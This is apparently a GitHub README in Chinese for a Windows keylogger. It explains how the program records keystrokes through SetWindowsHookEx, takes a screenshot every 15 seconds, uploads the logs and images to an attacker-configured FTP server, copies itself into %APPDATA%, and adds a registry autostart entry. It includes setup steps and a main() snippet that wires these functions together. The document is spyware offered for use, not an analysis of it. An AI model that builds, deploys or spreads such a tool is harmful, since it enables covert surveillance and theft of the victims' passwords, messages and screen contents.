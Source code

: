 # Keylogger（键盘记录、截屏、ftp传输）

## 基本原理
  1、通过WinAPI：SetWindowsHookEx进行键盘信息记录，记录结果形成一个txt文件，保存在%APPDATA%/IAMLOG/路径下，。\
  2、定时截图（默认间隔15秒），图片保存在%APPDATA%/IAMLOG/路径下，。\
  3、一个单独的线程定时通过ftp发送txt文件和图片文件，上传后的图片名称带有时间戳。\
  4、程序第一次运行时会把自己复制到%APPDATA%/IAMLOG/路径下，并把相应路径写入注册表启动项，以后开机自动运行。

## FTP服务器：FileZilla
  使用方法比较简单，配置好服务器后将IP、端口号、用户名、密码更新到BCKeylogger.cpp中。

## 使用方法
  主要文件：BCKeylogger.h和BCKeylogger.cpp\
  在主文件中引用头文件，并通过子线程调用Keylogger的主要功能，参考main.cpp主函数中的调用方法，如下所示：
  ```
  #include <thread>
  #include "BCKeylogger.h"

  using namespace std;

  int WINAPI wWinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, PWSTR pCmdLine, int nCmdShow)
  {
	  userpath();
	  AutoCopy();
	  AutoStart();

	  std::thread t1(StartKeyLogging);
	  std::thread t2(sendfileProcess);

	  t1.join();
	  t2.join();
  }
  ```
## 编译环境
   Win7x64\
   Visual Studio 2017


## 主要参考了以下两个Github的代码
  [ajayrandhawa/Blackcat-Keylogger](https://github.com/ajayrandhawa/Blackcat-Keylogger)\
  [vim2meta/keylogger](https://github.com/vim2meta/keylogger)
